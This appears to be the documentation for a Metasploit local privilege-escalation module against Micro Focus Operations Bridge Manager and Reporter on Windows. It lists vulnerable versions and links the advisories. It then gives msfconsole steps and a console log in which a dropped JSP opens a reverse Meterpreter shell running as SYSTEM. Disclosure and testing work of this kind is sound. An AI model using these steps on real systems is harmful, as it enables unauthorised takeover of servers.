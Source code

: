 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager and Operations Bridge Reporter.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making
a request to the OBM / OBR server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05 and 2019.11,
but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11
* Operations Bridge Reporter versions: 10.40 and possibly earlier

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05
* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set session SESSION`
5. `set lhost YOUR_IP`
6. `run`
7. You should get a shell.

## Scenarios

```
msf6 exploit(multi/handler) > use exploit/windows/local/microfocus_operations_privec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/microfocus_operations_privec) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(windows/local/microfocus_operations_privec) > set lport 4499
lport => 4499
msf6 exploit(windows/local/microfocus_operations_privec) > set session 3
session => 3
msf6 exploit(windows/local/microfocus_operations_privec) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
